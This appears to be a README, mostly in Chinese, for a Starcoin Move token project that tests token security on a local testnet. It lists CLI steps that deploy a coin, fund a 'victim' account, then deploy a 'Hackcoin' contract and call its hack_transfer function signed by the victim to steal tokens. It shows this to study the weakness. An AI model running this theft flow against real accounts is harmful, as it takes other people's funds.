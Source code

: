# my-coin

用来本地测试网测试发币安全性

-------0xc1a686339c6e2cfd2d26f6b3b30ee5d7----发币合约地址
account unlock 0xc1a686339c6e2cfd2d26f6b3b30ee5d7 -p123456

// 部署合约
dev deploy /Users/lbxie/starcoin/workspace/my-coin/release/my-coin.v0.0.0.blob -s 0xc1a686339c6e2cfd2d26f6b3b30ee5d7 -b

//发币
account execute-function --function 0xc1a686339c6e2cfd2d26f6b3b30ee5d7::MyCoin::init_coin_script -s 0xc1a686339c6e2cfd2d26f6b3b30ee5d7 -b

//mint
account execute-function --function 0xc1a686339c6e2cfd2d26f6b3b30ee5d7::MyCoin::mint_script --arg 10000 -s 0xc1a686339c6e2cfd2d26f6b3b30ee5d7 -b

// 转钱给受害者100
account execute-function --function 0xc1a686339c6e2cfd2d26f6b3b30ee5d7::MyCoin::transfer_script --arg 0xa0d8e8bc48488466188b163d62b2c919 --arg 100 -s 0xc1a686339c6e2cfd2d26f6b3b30ee5d7 -b

//给黑客转钱22测试
account execute-function --function 0xc1a686339c6e2cfd2d26f6b3b30ee5d7::MyCoin::transfer_script --arg 0xac3e5a1bda65d73b1b893892548578f7 --arg 22 -s 0xc1a686339c6e2cfd2d26f6b3b30ee5d7 -b

//查看余额
state get resource 0xc1a686339c6e2cfd2d26f6b3b30ee5d7 0xc1a686339c6e2cfd2d26f6b3b30ee5d7::MyCoin::Balance<0xc1a686339c6e2cfd2d26f6b3b30ee5d7::MyCoin::LebingCoin>

------ 0xa0d8e8bc48488466188b163d62b2c919 ------受害者地址
account unlock 0xa0d8e8bc48488466188b163d62b2c919 -p123456
// 初始化balance
account execute-function --function 0xc1a686339c6e2cfd2d26f6b3b30ee5d7::MyCoin::init_balance_script -s 0xa0d8e8bc48488466188b163d62b2c919 -b

//查看余额
state get resource 0xa0d8e8bc48488466188b163d62b2c919 0xc1a686339c6e2cfd2d26f6b3b30ee5d7::MyCoin::Balance<0xc1a686339c6e2cfd2d26f6b3b30ee5d7::MyCoin::LebingCoin>

------- 0xac3e5a1bda65d73b1b893892548578f7 ---黑客地址
//初始化balance
account execute-function --function 0xc1a686339c6e2cfd2d26f6b3b30ee5d7::MyCoin::init_balance_script -s 0xac3e5a1bda65d73b1b893892548578f7 -b
// 部署黑客合约
dev deploy /Users/lbxie/starcoin/workspace/my-coin/release/my-coin.v0.0.0.blob -s 0xac3e5a1bda65d73b1b893892548578f7 -b
// 以受害者角色来偷钱
account execute-function --function 0xac3e5a1bda65d73b1b893892548578f7::Hackcoin::hack_transfer --arg 0xac3e5a1bda65d73b1b893892548578f7 --arg 20 -s 0xa0d8e8bc48488466188b163d62b2c919 -b
//查看余额
state get resource 0xac3e5a1bda65d73b1b893892548578f7 0xc1a686339c6e2cfd2d26f6b3b30ee5d7::MyCoin::Balance<0xc1a686339c6e2cfd2d26f6b3b30ee5d7::MyCoin::LebingCoin>


